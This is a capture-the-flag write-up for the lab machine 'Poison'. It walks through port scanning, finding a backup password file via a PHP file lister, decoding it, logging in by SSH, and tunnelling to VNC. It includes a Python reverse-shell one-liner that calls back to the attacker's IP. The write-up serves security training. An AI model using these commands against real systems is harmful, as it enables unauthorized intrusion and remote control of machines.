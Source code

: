 # Poison

Nmap reports that 22,80 ports are open so we run a deeper scan to have a look on it

```bash
sudo nmap --open --min-rate 5000 -Pn 10.10.10.84 -oN ports

sudo nmap -sVC 10.10.10.84 -oN portsScan
```

The server is running a web app so we look trough it and we find a form with a GET method, so we will look further on this to vulnerate the website, seems to be a file finder so we will try to find sensitive info.


On `Sites to be tested: ini.php, info.php, listfiles.php, phpinfo.php` we go trough every file and we find that on `listfiles.php` there s a file called *pwdbackup.txt* so we browse to it and the file exist its a encrypted file and probably a password.

```bash
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d...
```

So we decode this badboi 13 times after a long 

*I can do this all day* - Captain America

We get `Charix!2#4%6&8(0` which indicates it can be a password for anything, since ssh is open we will just try it there.

```bash
ssh charix@10.10.10.84

# Seems that the password was Charix!2#4%6&8(0
```

We got the shell but it has some limitations, since netcat doesn't work we run

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We copy the secret.zip to our machine so we can inspect the file and do `zip2john` if needed

```bash
scp charix@10.10.10.84:/home/charix/secret.zip ./                 

# Trying to unzip it but it did'nt work
unzip -P 'Charix!2#4%6&8(0' secret.zip

# We found ��[|Ֆz! no sense so we keep going

```

```bash

# We take a look at the local ports with sockstat
sockstat -4l

# So we redirect the server our own machine
# Charix!2#4%6&8(0

ssh -L 5901:localhost:5901 -N -f charix@10.10.10.84

vncviewer localhost:5901 -passwd secret

```

